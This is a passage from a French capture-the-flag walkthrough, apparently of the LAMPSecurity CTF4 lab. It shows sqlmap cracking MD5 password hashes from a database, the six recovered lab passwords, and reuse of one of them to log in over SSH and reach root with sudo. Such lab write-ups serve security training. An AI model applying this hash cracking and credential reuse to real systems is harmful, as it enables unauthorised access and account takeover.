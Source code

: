 ```console
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:13:14] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[12:13:14] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:13:14] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[12:13:14] [INFO] cracked password 'convertible' for user 'sorzek'                                                                                 
[12:13:14] [INFO] cracked password 'Homesite' for user 'pmoore'                                                                                    
[12:13:14] [INFO] cracked password 'ilike2surf' for user 'dstevens'                                                                                
[12:13:14] [INFO] cracked password 'seventysixers' for user 'achen'                                                                                
[12:13:14] [INFO] cracked password 'Sue1978' for user 'jdurbin'                                                                                    
[12:13:14] [INFO] cracked password 'undone1' for user 'ghighland'                                                                                  
Database: ehks                                                                                                                                     
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : six mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le webmail SquirrelMail /mail/ en tant que dstevens, achen, pmoore, jdurbin ou encore ghighland... mais pas sorzek.

### Accès SSH et élévation de privilèges, partie 1

Inutile de lancer une attaque par dictionnaire avec Hydra, les mots de passe trouvés dans la base de données semblent fonctionner partout !

```console
root@blinils:~# ssh dstevens@192.168.56.104
The authenticity of host '192.168.56.104 (192.168.56.104)' can't be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.104' (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@192.168.56.104's password: 
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50

[dstevens@ctf4 ~]$ sudo -l
Password:
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 ~]$ sudo su
[root@ctf4 dstevens]#
```

